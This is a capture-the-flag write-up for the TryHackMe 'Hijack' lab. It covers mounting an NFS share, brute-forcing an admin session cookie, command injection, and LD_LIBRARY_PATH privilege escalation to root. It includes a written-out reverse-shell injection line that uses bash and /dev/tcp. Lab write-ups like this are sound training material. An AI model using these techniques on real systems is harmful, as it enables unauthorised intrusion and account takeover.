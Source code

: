 # HIJACK 
![hij](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/15bc4df0-d4e6-471a-ac09-a0538e5d9787)

Link: [Hijack](https://tryhackme.com/r/room/hijack)

## Enumeration
- An NMAP scan reveals that a number of services are running on the open ports of the system.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/390f58ff-5d36-478d-afe1-eed8c69a6960)
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/1f0abcb4-5a76-4662-b4df-9cc4e5a8d1df)

- The services of interest are FTP on port 21, ssh on port 22, http on port 80 and nfs on port 2049. From the NMAP results, FTP does not allow anonymous login. Let's take a look at the website on port 80.
 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/9e2413bf-1f35-47ff-965e-602ad9aea043)
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d9514ecd-4def-4110-888a-81f34574b6d4)

- The website has an admin panel that cannot be accessed because you do not have the rights to do so. You can run a gobuster scan to find if there are hidden directories in the website. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/73f91c4a-5fdf-49f5-a615-240ed8ffc525)

- The results of the gobuster scan shows that there are no hidden directories of interest. One of the services running on the target machine is NFS. You can list the shares on the target using the command;

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8d14f2f9-37a8-4b30-bf4a-bf879c1ce525)

- There is only one share on the system which you can mount to your machine and try to find any helpful information that can allow you to access the machine.
 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/63027d01-158e-45ac-9e6f-301948d5e4c6)

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/52d95a9e-0bfb-4787-9b3c-a5d98b9aed91)

- You cannot access the mounted share since you are not the owner. You can see that the share is owned by the user (hj_1003). This means that you will have to create the user hj_1003 on your system and switch to that user so that you can access the share. You can do so using the command;

  `sudo adduser hj_1003` 

  and then set the password using the command;

  `passwd hj_1003`

- Now switch to this user and view the contents of the share. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/90676514-2832-4664-ac78-e29900d684db)

- You get FTP credentials which you can now use to log into FTP. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/ea576b65-4064-4343-98a9-d2b1372220ca)

- There are two files of interest here: `.passwords_list.txt` and `from_admin.txt`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/be6169a8-b083-4ecb-8583-16110bad5091)

- The contents of the latter file reveals that the admin is using one of the passwords from the list. It also reveals that there is another user known as `rick`. With this information, it's time to pay another visit to the website and play around with it.


## Initial Foothold
- Trying to log into the website using the username `admin` and the password `admin` reveals that a user with this name exists but the password is incorrect. Trying this multiple times using default passwords reveals that you only have 5 tries before the system locks you out for 300 seconds.
- You can now try and create a user account to see if there are any parameters, such as cookies, that are present for a user.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/14d4b92e-6253-480b-8875-90ec8c02f3c2)

- You find that there is indeed a cookie for the user that is logged in. Examining this cookie reveals that it is encoded in base64. By decoding it, it can be seen that the cookie is in the format `user:password` where the password is hashed in MD5. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6bb348c5-b3f3-4438-9b9e-041e48e54738)

- With the password wordlist obtained from ftp, you can now bruteforce into the system using Intruder on Burpsuite. You can reload the logged in page of the user you created, capture this on Proxy, send it to Intruder and add the wordlist as well as rules for processing. For the cookie to be created, the password is hashed in MD5, the username is appended to this and then the result is encoded in base64. The rules should reflect this in this exact order.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/79990717-2399-4429-af8b-b7132cfb5d27)

- Click on the result that has a different time length than the rest. This is the cookie for the admin panel.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/329f149d-ead7-4907-985d-9382596a6a5c)

- Now you can log into the account you created and change the cookie to this value. You now have access to the admin panel where you can check the status of a service. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/cf01b1d8-4ae7-459c-9b96-5aba8be52d5e)

- While here, you can try to inject a command that gives you a reverse shell. I tried using a semi-colon after inputting ftp but the system detected this as a command injection. The other option is to use `&&` where the second commnad is executed only after the first is completed. With this, you can perform command injection as such to get a reverse shell;

`ftp && bash -c "bash -i >& /dev/tcp/ip/port 0>&1"`
  where ip is your listening IP and port is your netcat listening port and executing this gives you a shell.

- Viewing the contents of `config.php` reveals credentials for the user rick which you can ssh into.
- Now, you can get your first flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/485fe627-1853-4637-a633-22b2a2c39a63)


## Privilege Escalation
- Now, let's try to gain a root shell. The first vector I usually try is `sudo -l`. Luckily, that gets you a relevant vector for privesc in this case.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/52762bb7-c521-4165-bf12-28337186ea82)

- You can leverage the LD_LIBRARY_PATH environment variable to gain a root shell. This is outlined well [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation?source=post_page-----65e9d2b1a717--------------------------------#ld_preload-and-ld_library_path).
- The steps are as shown below. Copy the code provided into a c file (shell.c). Compile the code as is shown and then run the code and append the sudo command that `rick` is allowed to run on the system.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6339dbab-0d14-4ea1-a9bf-2231e7866d0d)

- This gives you a root shell through which you can get the second flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6cd0b7a6-d6e4-43ee-b5c5-8b8d28513e54)

